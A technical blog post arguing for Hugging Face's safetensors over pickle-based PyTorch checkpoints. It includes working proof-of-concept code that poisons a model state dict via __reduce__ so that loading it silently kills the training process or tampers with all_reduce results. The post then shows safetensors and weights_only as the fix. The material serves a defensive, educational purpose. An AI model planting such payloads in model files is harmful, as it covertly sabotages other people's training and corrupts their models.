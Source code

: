 ```yaml
---
title: "Why do we need Hugging Face's SafeTensor?"
description: "Malicious code can be injected in your model weights and safetensors is all you need."
date: "2024-10-19"
ogImage:
  url: "https://franklee.xyz/public_assets/blog_media/safetensor.jpeg"
---
```


A long time ago, a very simple question came to my mind when I was reading a bunch of Hugging Face's documentation - what does Hugging Face's Safetensor do? The term "Safetensor" appears in many places in the Hugging Face's documentation but people rarely talk about it and discuss its purpose. Recently, there was a security affair which affected a team's model training progress and this prompts me to revisit this question and write this blog. It should be noted that this blog is not a discussion of the affair but rather the technical advocation for the use of safetensors to protect your models, which are the most important assets in the AI era.

## What's wrong with the current model storage?

When we train a model, we often save the model weights to a file for checkpointing and later loading. The most popular format for this is the PyTorch state dictionary, which is a Python dictionary object mapping each layer to its parameter tensor. I guess most of you are familiar with the following code snippet:

```python
# save model weights
state_dict = model.state_dict()
torch.save(state_dict, "model.pt")

# load model weights
state_dict = torch.load("model.pt")
model.load_state_dict(state_dict)
```

However, this method uses `pickle` to serialize and deserialize the entire state dict object, raising concerns over its security. The reason is that `pickle` is not secure against erroneous or maliciously constructed data. It may load arbitrary code with the same privileges as the program that is deserializing the data. In this way, the attacker can inject arbitrary code into the model weights and cause serious security issues. One way to hack the models weights is to modify its `__reduce__` method to execute arbitrary code.

```python
class Obj:

    def __reduce__(self):
        return (exec, ("print('hello')",))
```

If you serialize this object and save it to a file, the code will be executed when you load the object. That is, you will see a "hello" statement printed when you load the object.

With this in mind, we can basically manipulate many parts of the program, including imported libraries and local variables. I have provided two typical senarios where your training process can be interrupted and the arithmetic correctness of the model weights can be tampered with. You can also find the example code in my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor).

### Scenario 1: Automatically shut down the training process

As we can see in the "hello" example above, the malicious code is written as a code string. Similarly, we can prepare the following code string to create a new thread, which kills the parent process after 5 seconds. This thread works at the background so the user won't notice anything and `os.kill` does not return any error trace, which makes it hard to detect the malicious code.

```python
AUTO_SHUTDOWN = """
import os
import threading
from functools import partial

# get the process ID
pid = os.getpid()

def inject_code(pid: int):
    import time
    import os
    time.sleep(5)
    os.kill(pid, 9)

wrapped_fn = partial(inject_code, pid)
injection_thread = threading.Thread(target=wrapped_fn)
injection_thread.start()
"""
```

Next, we need to inject this code into the state dict object. As a result, when we load the model weights from disk, the code will be executed and the training process will be interrupted.

```python
def inject_malicious_code(obj, code_str):
    # bind a reduce fn to weights
    def reduce(self):
        return (exec, (code_str, ))

    # bind the reduce fn to the weights's __reduce__ method
    bound_reduce = reduce.__get__(obj, obj.__class__)
    setattr(obj, "__reduce__", bound_reduce)
    return obj

state_dict = inject_malicious_code(state_dict, AUTO_SHUTDOWN)
```

### Scenario 2: Introduce errors in collective communication

Similarly, if we want to modify the behaviour of the collective communication operations, we can introduce errors in its computation so that the gradients will never be correct in distributed training. We can prepare the following code string to hijack the `all_reduce` function. This code string monkey patches the `all_reduce` API in the `torch.distributed` module and adds 1 to the tensor in place. As a result, the all-reduce results will be larger than the expected results.

```python
HIJACK_ALL_REDUCE = """
import torch.distributed as dist

dist._origin_all_reduce = dist.all_reduce
def hijacked_all_reduce(tensor, *args, **kwargs):
    import torch.distributed as dist
    tensor = tensor.add_(1)
    return dist._origin_all_reduce(tensor, *args, **kwargs)

setattr(dist, "all_reduce", hijacked_all_reduce)
"""
```

For example, if you have 2 processes and each process is holidng a tensor `[0, 1, 2, 3]`, the all-reduce operation will sum up the tensors from each process and the result will be `[0, 2, 4, 6]`. However, if the attacker injects the malicious code, the result will be `[2, 4, 6, 8]`.

## How do Safetensors solve the problem?

In the first place, Safetensors do not use `pickle` to serialize and deserialize the state dict object. Instead, it uses a custom serialization method to store the model weights. In this way, the attacker cannot inject arbitrary code into the model weights. Amazingly, Safetensors are still fast as does zero-copy when storing and saving model weights. In simple words, Hugging Face's Safetensors ensure that your model weights files only contain the parameter data and nothing else.

We have also provided some examples of using safetensors to remove the security concerns in the my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor). For every example which demonstrates the malicious scenario, you just simply add the `--use-safetensor` flag to the command to see the difference.

Moreover, if you still want to stick to `torch.load`, you can specify the argument `weights_only` so that PyTorch will restricts the unpickler to only unpickle the metadata and tensors.

## References

- https://www.reddit.com/r/learnpython/comments/ewrcuc/how_do_you_run_code_while_unpickling/
- https://huggingface.co/docs/safetensors/en/index

